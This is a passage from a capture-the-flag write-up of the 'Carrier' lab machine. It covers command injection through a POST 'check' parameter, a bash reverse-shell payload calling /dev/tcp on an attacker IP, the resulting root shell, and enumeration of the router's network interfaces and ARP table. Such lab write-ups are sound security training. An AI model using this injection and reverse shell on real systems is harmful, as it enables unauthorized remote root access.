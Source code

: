 And it works, we have command injection and it shows as root !!. It is even possible to get user.txt file before getting a reverseShell.

#### Exploitation:

Lets get a reverse shell back to our attacker machine for further exploitation.I am going to send a simple base64 enc0ded bash reverse shell.
> ; /bin/bash -c "bash -i >& /dev/tcp/10.10.14.x/9999 0>&1"

![source-01](/img/Screenshot_2020-05-27_18-36-08.png){: .align-left}

Send the command inside the POST request via the check parameter. After executing it got a reverse Shell as root, but root flag is not here.

```python

➜  carrier nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.10.105] 51560
bash: cannot set terminal process group (2323): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@r1:~# ls
ls
test_intercept.pcap
user.txt
root@r1:~# cat user.txt
```


#### Network Enumeration:
So we are basically inside a router, by typing hostname it says we are in R1. Again back to enumeration, we need to gather all the information we need to escalate our priviledges to root. So i ran LinePeas.sh which is a post exploitation information gathering tool.

The router has three network interfaces:
+ eth0: 10.99.64.2/24
+ eth1: 10.78.10.1/24
+ eth2: 10.78.11.1/24

The arp table shows IP addresses from all of the networks listed above.

```python

root@r1:~# arp
arp
Address                  HWtype  HWaddress           Flags Mask            Iface
10.78.11.2               ether   00:16:3e:c4:fa:83   C                     eth2
10.78.10.2               ether   00:16:3e:5b:49:a9   C                     eth1
10.99.64.251             ether   00:16:3e:f3:92:14   C                     eth0
10.99.64.1               ether   fe:3c:27:ea:df:39   C                     eth0
root@r1:~# 
```
###### 10.120.15.0/24  Network Scan:

